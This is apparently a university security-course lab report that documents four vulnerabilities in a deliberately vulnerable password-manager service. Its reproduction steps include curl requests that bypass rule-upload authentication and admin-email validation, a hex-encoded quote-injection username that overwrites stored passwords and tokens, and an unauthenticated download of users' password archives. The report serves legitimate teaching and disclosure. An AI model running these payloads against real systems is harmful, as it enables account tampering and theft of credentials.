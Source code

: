 # Project3

## Vulnerability 1 - Unauthenticated Rule Addition : A Gateway for Spoofing attacks
**Steps to Execute**: 
1. Download the `vulnerable_rule1.json` and `vulnerable_rule2.json` files and place them in the same directory where you will run the bcpwm-cli commands.
2. Add these rules to the system using the following commands:
   ```bash
   bcpwm-cli -a vulnerable_rule1.json
   bcpwm-cli -a vulnerable_rule2.json
   ```
3. `vulnerable_rule1.json` defines the password rules for *vulnerable.com*, and `vulnerable_rule2.json` defines the password rules for *test.com*. To generate passwords for these sites, use the following commands:
   ```bash
   bcpwm-cli -g [masterpassword] vulnerable.com
   bcpwm-cli -g [masterpassword] test.com
   ```
4. When using `vulnerable_rule1.json`, due to the overly simple rule, the password generated for *vulnerable.com* will always be 'a'. For *test.com*, using the `vulnerable_rule2.json`, a password consisting of 8 characters in the combination of 'a' and 'A' is generated. While this is more complex than the password from *vulnerable_rule1.json*, it still creates a very simple and predictable password.

![7be4c121-20e8-4a9a-848f-280496b86f95](https://github.com/user-attachments/assets/58e00664-9a72-4683-a9b9-90695d2e1654)


![b81d5d2d-ce9f-415d-bb79-ec352cacc6da](https://github.com/user-attachments/assets/3690af7e-32ba-420c-8fd8-031f293fa549)

**Expected Result**: The system accepts and applies the rule file without requiring authentication, allowing the attacker to define an insecure password generation policy, weakening the site’s overall password security. 


## Vulnerability 2 - Exploiting weak email validation for system tampering 
**Steps to Execute**: 
1. Download the `rtest1.bcr` file and place it in the bcpwm-client directory.
2. In the terminal, send the POST request to the cloud server with normal user address ( not administrative email address ) and rtest1.bcr file ( which has very simple rule )
   ```bash
   curl -v -k --noproxy "*" \
     -X POST "https://bcpwm.badlycoded.net/post-rule/init/csel-xsme-f24-csci4271-23.cselabs.umn.edu/student2" \
     -F "file=@/home/student/bcpwm-client/rtest1.bcr"
   ```
   ![2a8b2a50-fe6c-4ca2-abe1-0c2d7ed3cf41](https://github.com/user-attachments/assets/f7b37614-6fbd-4e9b-96aa-cffec4019879)

   You can see that the request was successfully sent.

4. Log in as student2 and enter the `mail` command to check the mail.
   ```bash
   mail
   ```
   ![725298e1-16d4-4c8d-8452-3f177957fec2](https://github.com/user-attachments/assets/ef5561d4-2279-4148-90fb-31b7a04c3b56)

   Then, you can find that the token value has been correctly received in the mail as follows.

  

4. Return to the original bcpwm-client directory and send a confirm request including the token.
   ```bash
   curl -v -k --noproxy "*" "https://bcpwm.badlycoded.net/post-rule/confirm/csel-xsme-f24-csci4271-23.cselabs.umn.edu/aLsSdYYcYQPo"
   ```
   ![095abd18-4029-4b19-9af5-eddb7264d41d](https://github.com/user-attachments/assets/9eb01470-e6d3-4d69-b47f-e4fba5d6a627)

   It can be observed that the rule upload confirm succeeded even when an email from a normal user, rather than an administrative email address, was used.

5. You can find that the rule is saved in `/var/bcpwm/rules`.
   ![e39e9019-036a-498d-9941-76555057dc7a](https://github.com/user-attachments/assets/e70c7be6-b46c-48c8-b63d-1b80448fa548)



**Expected Result**: The system accepts and applies the rule file without requiring administrative validation, allowing the attacker to upload an insecure password generation policy, weakening the site’s overall password security.

## Vulnerability 3 - Overwriting password and token
**Steps to Execute**: 
1. Use `test' dumb 'kkkk` as user. Thus, hexuser would be 74657374272064756d6220276b6b6b6b.
2. Use "password" as password. Thus, hexpass would be 70617373776f7264.
3. In the terminal, use the /init_client/<string>/<string> API.
   ```bash
   curl -v -k --noproxy "*" \ "https://bcpwm.badlycoded.net/init_client/74657374272064756d6220276b6b6b6b/70617373776f7264" 
   ```
   ![34c0b212-b47c-4b65-aee3-38715e86ddde](https://github.com/user-attachments/assets/ffbe3f10-38b1-4852-a004-0e7807248bb7)
   
   You can see that the request successed.
   
5. Check if the `user`, `password`, and `token` fields in the `user_reg_table` of the database are correctly configured. Navigate to `/var/bcpwm` and enter the command `sqlite3 bcpwm.db`.
6. Search `SELECT * FROM user_reg_table;`.
   
   ![3a2558c0-6725-4fd4-892e-89cdb4597d3f](https://github.com/user-attachments/assets/4790f85a-33e1-4abd-b5ce-500ef3510636)

   As shown below, at the bottom, you can see that `user = test`, `password = dumb`, and `token = kkkk`, confirming that the `password` and `token` values have been overwritten.

**Expected Result**: The system allows unvalidated inputs to be directly injected into the database, enabling attackers to overwrite legitimate user data. This compromises the integrity of stored information and may disrupt normal application functionality.

## Vulnerability 4 - Weak Authentication in Sync Down API can lead to Information Disclosure ( New Vulnerability )
**Steps to Execute**: 
1. Download the file1.txt and file2.txt
2. Navigate to the `/var/bcpwm/tar` directory and save the `file1.txt` and `file2.txt` files in that directory.
3. In that directory, execute the command `sudo tar -cvf test.tar file1.txt file2.txt`. This will create a `test.tar` file.
4. Navigate to the `~/bcpwm-client` directory, and in that directory, execute the command:  
`curl -k --noproxy "*" "https://bcpwm.badlycoded.net/sync_down/test.tar" -o test.tar`
   ![e9f0ea03-ab5d-43bc-926f-0ff221fae5b0](https://github.com/user-attachments/assets/5778ac83-8da0-41e2-af13-e75ec45c56c9)

   As shown in the image above, the `test.tar` file is successfully downloaded without any authentication.
   
   ![7211f731-11c4-434d-bdab-470a3db07b85](https://github.com/user-attachments/assets/138d7db6-0a44-4cbd-99ce-f8f67c93b1e1)

   The `test.tar` file has been successfully saved in the `~/bcpwm-client` directory.

5. To verify that the download was successful, extract the `test.tar` file using the command:  
`tar -xvf test.tar -C ~/bcpwm-client`
   ![50583253-b492-4010-8c97-ad59169b946c](https://github.com/user-attachments/assets/30997909-e7a6-42ed-abff-244f4e8a9d0a)

   As shown in the image, `file1.txt` and `file2.txt` have been successfully extracted and can be seen in the `bcpwm-client` directory.

6. By using the command `cat file1.txt file2.txt`, you can confirm that the files were downloaded successfully.
   
   ![00eb18f9-717f-47e3-a501-474c4e2319a4](https://github.com/user-attachments/assets/4896e222-b2e2-4504-b237-78f0fc832e1e)

**Expected Result**: Anyone, including attackers, who knows the username of a specific user and is aware of the existence of their tar file can download it without restriction. Moreover, these tar files contain sensitive information, such as passwords and password rules. If tar files can be freely downloaded without authentication like this, it creates a significant information disclosure issue.  









